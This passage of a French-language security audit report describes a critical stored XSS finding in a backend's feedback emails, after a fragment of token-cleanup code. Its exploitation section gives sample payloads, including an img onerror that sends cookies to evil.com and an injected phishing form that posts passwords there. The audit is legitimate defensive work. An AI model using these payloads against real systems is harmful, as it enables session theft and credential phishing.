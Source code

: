 ```typescript
    const expiresAt = new Date();
    expiresAt.setDate(expiresAt.getDate() + 7);

    await query(
      'INSERT INTO refresh_tokens (user_id, token, expires_at) VALUES (?, ?, ?)',
      [decoded.userId, newRefreshToken, expiresAt.toISOString()]
    );

    res.json({ accessToken, refreshToken: newRefreshToken });
  } catch (error) {
    next(error);
  }
});

// Job de nettoyage périodique (à exécuter toutes les heures)
async function cleanupExpiredTokens() {
  await query("DELETE FROM refresh_tokens WHERE expires_at <= datetime('now')");
}
```

---

### 🔴 CRIT-006: XSS via injection de contenu non échappé dans les emails

**Sévérité:** CRITIQUE
**CWE:** CWE-79 (Cross-site Scripting)
**Localisation:** `backend/src/routes/feedback.ts:87-94`

**Description:**
Les données utilisateur (feedback, suggestions) sont insérées directement dans les emails HTML sans échappement, permettant l'injection de HTML/JavaScript malveillant.

```typescript
// Code vulnérable:
${feedback ? `
<div class="section">
  <div class="label">💭 Avis général</div>
  <div class="value">${feedback.replace(/\n/g, '<br>')}</div>
</div>
` : ''}
```

**Impact:**
- Injection de scripts malveillants dans les emails
- Phishing via emails falsifiés
- Vol de credentials via liens malveillants
- Exploitation du client email du destinataire

**Exploitation:**
```javascript
// Attaquant envoie un feedback avec du HTML malveillant:
POST /api/feedback
{
  "rating": 5,
  "feedback": "<script>alert('XSS')</script>",
  "suggestions": "<img src='x' onerror='window.location=\"https://evil.com/steal?cookie=\"+document.cookie'>"
}

// Alternative avec injection de formulaire de phishing:
{
  "feedback": "<form action='https://evil.com/steal'><input name='password' placeholder='Re-enter password'><button>Verify</button></form>"
}
```